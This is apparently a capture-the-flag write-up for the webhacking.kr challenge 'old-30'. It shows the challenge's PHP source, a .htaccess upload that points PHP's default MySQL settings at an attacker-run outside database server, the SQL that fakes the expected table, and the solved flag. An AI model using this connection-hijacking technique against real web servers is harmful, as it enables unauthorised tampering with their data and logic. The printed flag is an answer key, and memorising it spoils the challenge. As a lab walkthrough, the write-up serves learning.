

# Webhacking old-30 Solution

Here we can see it tries to connect to a mySQL server, but doesn't supply parameters to the `mysqli_connect` function:

```php
<?php
  if($_GET['view_source']) highlight_file(__FILE__);
  $db = mysqli_connect() or die();
  mysqli_select_db($db,"chall30") or die();
  $result = mysqli_fetch_array(mysqli_query($db,"select flag from chall30_answer")) or die();
  if($result[0]){
    include "/flag";
  }
?>
```

## Configuration Injection

So, according to [default config files location](https://www.php.net/manual/en/configuration.changes.modes.php), so, we can upload our own `.htaccess` file, and there set the default mySQL server.

Our `.htaccess` file, fill the fields with your credentials:
```
php_value mysqli.default_port "...."
php_value mysqli.default_host "...."
php_value mysqli.default_user "...."
php_value mysqli.default_pw "...."
```

## Setting our MySQL server

I used this free website [Free My SQL server hosting](https://console.aiven.io/), after creating my free service, i connected to my SQL server:
`mysql --user username --password=password --host yoursubdomain.aivencloud.com --port ????? defaultdb`

Then, in the command line i ran those commands:

```
Create DATABASE chall30;
use chall30;

Create TABLE chall30_answer (flag VARCHAR(30) PRIMARY KEY);
Insert into chall30_answer (flag) VALUES ('hello world!');
select * from chall30_answer;   ### checking

### changing from "caching_sha2_password" to "mysql_native_password"

use mysql
ALTER USER 'username'@'%' IDENTIFIED WITH mysql_native_password BY 'password';
select user,plugin from user;   ### checking
```



**Flag:** ***`FLAG{uhoh-db-connection-hijacking?}`*** 


